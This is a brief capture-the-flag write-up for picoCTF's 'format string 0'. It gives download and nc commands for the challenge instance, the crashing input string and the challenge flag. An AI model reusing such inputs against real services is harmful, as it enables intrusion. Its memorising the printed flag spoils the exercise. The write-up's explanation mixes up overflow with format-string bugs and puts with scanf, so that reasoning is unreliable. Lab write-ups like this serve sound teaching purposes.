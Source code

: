 # format string 0

## Description

Can you use your knowledge of format strings to make the customers happy?
Download the binary [here](https://artifacts.picoctf.net/c_mimas/68/format-string-0).
Download the source [here](https://artifacts.picoctf.net/c_mimas/68/format-string-0.c).

> Connect with the challenge instance here:
> nc mimas.picoctf.net 59626

## Solution

```sh
curl -LO https://artifacts.picoctf.net/c_mimas/68/format-string-0
curl -LO https://artifacts.picoctf.net/c_mimas/68/format-string-0.c
nc mimas.picoctf.net 59626
# Provide Breakf@st_BurgerBreakf@st_BurgerBreakf@st_Burger
```

Flag -> `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`.

## Writeup

Providing more characters than the limit allows causes an overflow. It's that simple. Writers should have used a limit specifier with `scanf`, and `puts` instead of `scanf`.
